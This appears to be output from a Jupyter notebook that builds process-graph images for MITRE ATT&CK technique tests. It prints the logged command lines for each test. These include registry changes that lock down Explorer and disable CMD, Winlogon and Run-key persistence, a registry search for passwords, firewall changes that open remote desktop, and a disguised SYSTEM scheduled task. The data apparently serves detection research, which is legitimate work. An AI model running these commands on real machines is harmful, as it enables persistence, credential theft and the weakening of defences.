../graph_benign2/T1112_4bfb5f265a5ce07af6bf10da113af7db.png has been generated!
T1518_8ddfaf982ab359cda13626b870ccb339


<Figure size 432x288 with 0 Axes>



 58%|█████▊    | 96/165 [13:10<01:44,  1.51s/it]

Number of relations in the graph: 3
88027 : powershell.exe_-ExecutionPolicy_Bypass_-C_"(Get-ItemProperty_'HKLM:\SOFTWARE\Microsoft\Internet_Explorer').Version"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9436
704355 : HKLM\SOFTWARE\Microsoft\Internet_Explorer\svcVersion
673784 : cmd.exe_/C_reg_query_"HKEY_LOCAL_MACHINE\Software\Microsoft\Internet_Explorer"_/v_svcVersion&C:\Windows\system32\cmd.exe&cmd.exe&8704
32030 : reg__query_"HKEY_LOCAL_MACHINE\Software\Microsoft\Internet_Explorer"_/v_svcVersion&C:\Windows\system32\reg.exe&reg.exe&6844
../graph_benign2/T1518_8ddfaf982ab359cda13626b870ccb339.png has been generated!
T1112_fa4ba6a06b4a5cd955ea5a60fae24281


<Figure size 432x288 with 0 Axes>



 59%|█████▉    | 97/165 [13:12<01:40,  1.47s/it]

Number of relations in the graph: 3
422665 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoClose_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\cmd.exe&cmd.exe&2920
566229 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoClose_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\reg.exe&reg.exe&10316
347355 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoClose
../graph_benign2/T1112_fa4ba6a06b4a5cd955ea5a60fae24281.png has been generated!
T1049_a14392d713dffba6a397682ff83259a0


<Figure size 432x288 with 0 Axes>



 59%|█████▉    | 98/165 [13:13<01:40,  1.50s/it]

Number of relations in the graph: 3
744868 : cmd.exe_/C_netstat_&&_net_use_&&_net_sessions&C:\Windows\system32\cmd.exe&cmd.exe&4988
416231 : netstat__&C:\Windows\system32\NETSTAT.EXE&NETSTAT.EXE&8208
742545 : net__use_&C:\Windows\system32\net.exe&net.exe&8252
721514 : net__sessions&C:\Windows\system32\net.exe&net.exe&1420
../graph_benign2/T1049_a14392d713dffba6a397682ff83259a0.png has been generated!
T1112_34041639e6e501856ecaf5969ee29c76


<Figure size 432x288 with 0 Axes>



 60%|██████    | 99/165 [13:15<01:37,  1.47s/it]

Number of relations in the graph: 3
675627 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoFind_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\cmd.exe&cmd.exe&10396
159720 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoFind_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\reg.exe&reg.exe&9744
400041 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoFind
../graph_benign2/T1112_34041639e6e501856ecaf5969ee29c76.png has been generated!
T1112_35c0360d226cf38104f300d9d57ce60e


<Figure size 432x288 with 0 Axes>



 61%|██████    | 100/165 [13:16<01:34,  1.45s/it]

Number of relations in the graph: 3
470682 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\System"_/v_"DisableCMD"_/t_REG_DWORD_/d_"1"_/f&C:\Windows\system32\cmd.exe&cmd.exe&10596
306463 : reg__add_"HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\System"_/v_"DisableCMD"_/t_REG_DWORD_/d_"1"_/f&C:\Windows\system32\reg.exe&reg.exe&10832
22152 : HKCU\SOFTWARE\Policies\Microsoft\Windows\System\DisableCMD
../graph_benign2/T1112_35c0360d226cf38104f300d9d57ce60e.png has been generated!
T1007_d6bb2a19da7246731ed9c44831b135f8


<Figure size 432x288 with 0 Axes>



 61%|██████    | 101/165 [13:18<01:34,  1.48s/it]

Number of relations in the graph: 3
698720 : cmd.exe_/C_tasklist.exe_&&_sc_query_&&_sc_query_state=_all&C:\Windows\system32\cmd.exe&cmd.exe&6496
488163 : tasklist.exe__&C:\Windows\system32\tasklist.exe&tasklist.exe&8600
652407 : sc__query_&C:\Windows\system32\sc.exe&sc.exe&372
642871 : sc__query_state=_all&C:\Windows\system32\sc.exe&sc.exe&3640
../graph_benign2/T1007_d6bb2a19da7246731ed9c44831b135f8.png has been generated!
T1112_fd992e8ecfdac9b56dd6868904044827


<Figure size 432x288 with 0 Axes>



 62%|██████▏   | 102/165 [13:19<01:32,  1.47s/it]

Number of relations in the graph: 3
604448 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoRun_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\cmd.exe&cmd.exe&4548
696650 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoRun_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\reg.exe&reg.exe&8532
198945 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoRun
../graph_benign2/T1112_fd992e8ecfdac9b56dd6868904044827.png has been generated!
T1112_257313a3c93e3bb7dfb60d6753b09e34


<Figure size 432x288 with 0 Axes>



 62%|██████▏   | 103/165 [13:21<01:30,  1.46s/it]

Number of relations in the graph: 3
303496 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoFileMenu_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\cmd.exe&cmd.exe&8900
22509 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoFileMenu_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\reg.exe&reg.exe&3476
181271 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoFileMenu
../graph_benign2/T1112_257313a3c93e3bb7dfb60d6753b09e34.png has been generated!
T1112_ba6f6214dbd17c54001e0a163b60f151


<Figure size 432x288 with 0 Axes>



 63%|██████▎   | 104/165 [13:23<01:42,  1.68s/it]

Number of relations in the graph: 3
672703 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoSetTaskbar_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\cmd.exe&cmd.exe&5836
158127 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoSetTaskbar_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\reg.exe&reg.exe&7696
798771 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoSetTaskbar
../graph_benign2/T1112_ba6f6214dbd17c54001e0a163b60f151.png has been generated!
T1112_e74d2fb4ef5fa6c766a4151554033697


<Figure size 432x288 with 0 Axes>



 64%|██████▎   | 105/165 [13:24<01:37,  1.63s/it]

Number of relations in the graph: 3
113601 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoDesktop_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\cmd.exe&cmd.exe&6500
632958 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoDesktop_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\reg.exe&reg.exe&10072
406471 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoDesktop
../graph_benign2/T1112_e74d2fb4ef5fa6c766a4151554033697.png has been generated!
T1547.004_aa147165f6c116cb0b0f944abe1db8ce


<Figure size 432x288 with 0 Axes>



 64%|██████▍   | 106/165 [13:26<01:33,  1.59s/it]

Number of relations in the graph: 3
566485 : "c:\users\ezk\appdata\local\google\chrome\user_data\swreporter\100.282.200\software_reporter_tool.exe"_--use-crash-handler-with-id="\\.\pipe\crashpad_7816_BCKRKHIGAONBVPMQ"_--sandboxed-process-id=2_--init-done-notifier=768_--sandbox-mojo-pipe-token=12170273747981857521_--mojo-platform-channel-handle=744_--engine=2&c:\users\ezk\appdata\local\google\chrome\user_data\swreporter\100.282.200\software_reporter_tool.exe&software_reporter_tool.exe&660
468101 : HKCU\SOFTWARE\Microsoft\Windows_NT\CurrentVersion\Winlogon\Shell
335641 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Set-ItemProperty_\"HKCU:\Software\Microsoft\Windows_NT\CurrentVersion\Winlogon\\\"_\"Shell\"_\"explorer.exe,_C:\Windows\System32\cmd.exe\"_-Force"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9748
../graph_benign2/T1547.004_aa147165f6c116cb0b0f944abe1db8ce.png has been generated!
T1074.001_6469befa-748a-4b9c-a96d-f191fde47d89


<Figure size 432x288 with 0 Axes>



 65%|██████▍   | 107/165 [13:27<01:28,  1.53s/it]

Number of relations in the graph: 3
784864 : powershell.exe_-ExecutionPolicy_Bypass_-C_"New-Item_-Path_\".\"_-Name_\"staged\"_-ItemType_\"directory\"_-Force_|_foreach_{$_.FullName}_|_Select-Object"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&10296
80097 : C:\Windows\System32\staged
../graph_benign2/T1074.001_6469befa-748a-4b9c-a96d-f191fde47d89.png has been generated!
T1112_cd8be0e6b873919da25530a2c7ea6750


<Figure size 432x288 with 0 Axes>



 65%|██████▌   | 108/165 [13:29<01:26,  1.51s/it]

Number of relations in the graph: 3
395256 : C:\Users\ezk\AppData\Roaming\updater.exe__-Command_exit&C:\Users\ezk\AppData\Roaming\updater.exe&updater.exe&612
39919 : HKLM\SOFTWARE\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell\ExecutionPolicy
740780 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Set-ExecutionPolicy_-ExecutionPolicy_Bypass_-Scope_LocalMachine"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&11128
../graph_benign2/T1112_cd8be0e6b873919da25530a2c7ea6750.png has been generated!
T1112_7fe6a66d03f4dbfc022609ba311c2b11


<Figure size 432x288 with 0 Axes>



 66%|██████▌   | 109/165 [13:30<01:24,  1.52s/it]

Number of relations in the graph: 3
602868 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoPropertiesMyDocuments_/t_REG_DWORD_/d_1&C:\Windows\system32\cmd.exe&cmd.exe&4740
710270 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoPropertiesMyDocuments_/t_REG_DWORD_/d_1&C:\Windows\system32\reg.exe&reg.exe&1728
61427 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoPropertiesMyDocuments
../graph_benign2/T1112_7fe6a66d03f4dbfc022609ba311c2b11.png has been generated!
T1552.002_3e5b04b8ee0a1a4950da8f35d95e65fc


<Figure size 432x288 with 0 Axes>



 67%|██████▋   | 110/165 [13:32<01:24,  1.53s/it]

Number of relations in the graph: 2
600472 : cmd.exe_/C_reg_query_HKLM_/f_password_/t_REG_SZ_/s_&&_reg_query_HKCU_/f_password_/t_REG_SZ_/s&C:\Windows\system32\cmd.exe&cmd.exe&9692
201183 : reg__query_HKLM_/f_password_/t_REG_SZ_/s_&C:\Windows\system32\reg.exe&reg.exe&10372
518213 : reg__query_HKCU_/f_password_/t_REG_SZ_/s&C:\Windows\system32\reg.exe&reg.exe&8880
../graph_benign2/T1552.002_3e5b04b8ee0a1a4950da8f35d95e65fc.png has been generated!
T1518.001_33a24ff44719e6ac0614b58f8c9a7c72


<Figure size 432x288 with 0 Axes>



 67%|██████▋   | 111/165 [13:33<01:21,  1.51s/it]

Number of relations in the graph: 2
121032 : cmd.exe_/C_fltmc.exe_|_findstr.exe_385201&C:\Windows\system32\cmd.exe&cmd.exe&10612
67726 : fltmc.exe__&C:\Windows\system32\fltMC.exe&fltMC.exe&10340
461136 : findstr.exe__385201&C:\Windows\system32\findstr.exe&findstr.exe&9448
../graph_benign2/T1518.001_33a24ff44719e6ac0614b58f8c9a7c72.png has been generated!
T1547.001_777043894e42d2aae3881e63f6c76d33


<Figure size 432x288 with 0 Axes>



 68%|██████▊   | 112/165 [13:35<01:18,  1.49s/it]

Number of relations in the graph: 2
354280 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$RunKey_=_\"HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\";_Set-ItemProperty_-Path_$RunKey_-Name_\"socks5_powershell\"_-Value_\"powershell.exe_-windowstyle_hidden_-ExecutionPolicy_Bypass_-File\""&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&5536
267678 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\socks5_powershell
../graph_benign2/T1547.001_777043894e42d2aae3881e63f6c76d33.png has been generated!
T1547.004_0856714c9810ac55b53e9964d02958a0


<Figure size 432x288 with 0 Axes>



 68%|██████▊   | 113/165 [13:36<01:16,  1.48s/it]

Number of relations in the graph: 2
764621 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Set-ItemProperty_\"HKCU:\Software\Microsoft\Windows_NT\CurrentVersion\Winlogon\\\"_\"Userinit\"_\"Userinit.exe,_C:\Windows\System32\cmd.exe\"_-Force"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9200
757062 : HKCU\SOFTWARE\Microsoft\Windows_NT\CurrentVersion\Winlogon\Userinit
../graph_benign2/T1547.004_0856714c9810ac55b53e9964d02958a0.png has been generated!
T1562.004_280003641a5cddf916c4f2bf605a71d3


<Figure size 432x288 with 0 Axes>



 69%|██████▉   | 114/165 [13:38<01:15,  1.49s/it]

Number of relations in the graph: 2
537077 : cmd.exe_/C_netsh_advfirewall_firewall_set_rule_group="remote_desktop"_new_enable=Yes_&&_netsh_advfirewall_firewall_set_rule_group="file_and_printer_sharing"_new_enable=Yes&C:\Windows\system32\cmd.exe&cmd.exe&11152
94203 : netsh__advfirewall_firewall_set_rule_group="remote_desktop"_new_enable=Yes_&C:\Windows\system32\netsh.exe&netsh.exe&10736
549961 : netsh__advfirewall_firewall_set_rule_group="file_and_printer_sharing"_new_enable=Yes&C:\Windows\system32\netsh.exe&netsh.exe&6616
../graph_benign2/T1562.004_280003641a5cddf916c4f2bf605a71d3.png has been generated!
T1036.004_7de3d7b4922a7b996d8df36fb22bb118


<Figure size 432x288 with 0 Axes>



 70%|██████▉   | 115/165 [13:39<01:15,  1.51s/it]

Number of relations in the graph: 2
470650 : cmd.exe_/C_schtasks_/create_/ru_system_/sc_daily_/tr_"cmd_/c_powershell.exe_-ep_bypass_-file_c:\T1036.004_NonExistingScript.ps1"_/tn_win32times_/f_&&_schtasks_/query_/tn_win32times&C:\Windows\system32\cmd.exe&cmd.exe&4092
663446 : schtasks__/create_/ru_system_/sc_daily_/tr_"cmd_/c_powershell.exe_-ep_bypass_-file_c:\T1036.004_NonExistingScript.ps1"_/tn_win32times_/f_&C:\Windows\system32\schtasks.exe&schtasks.exe&2620
